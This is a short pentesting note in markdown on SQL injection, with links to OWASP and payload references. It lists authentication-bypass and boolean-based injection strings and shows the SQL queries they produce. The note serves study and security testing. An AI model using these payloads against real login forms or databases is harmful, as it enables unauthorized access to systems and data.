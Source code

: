 ```yaml
---
id: Exploitation
aliases:
  - SQLi
tags:
  - Networking/Services/SQL/Exploitation
links: "[[SQL]]"
---
```


# Exploitation

<!-- SQL injection {{{-->
## SQL injection

- [OWASP - SQL Injection](https://owasp.org/www-project-web-security-testing-guide/latest/4-Web_Application_Security_Testing/07-Input_Validation_Testing/05-Testing_for_SQL_Injection)
- [TCM Security - Avoid OR 1=1](https://tcm-sec.com/avoid-or-1-equals-1-in-sql-injections/)
- [GitHub - PayloadsAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/SQL%20Injection/SQLite%20Injection.md#sqlite-remote-code-execution)

> [!danger]
>
> **DO NOT USE**
>
>```sql
># OR <true>
>OR 1=1
>' OR '1'='1
>```

### Authentication Bypass

```sql
admin'; -- -
```
```sql
SELECT * FROM users WHERE username = 'admin'; -- -' AND password = 'password'
```

### Boolean

```sql
admin' AND '1'='1 / ' AND '1'='2
```
```sql
SELECT * FROM articles WHERE author = 'admin' AND '1'='1'
```

___
<!-- }}} -->
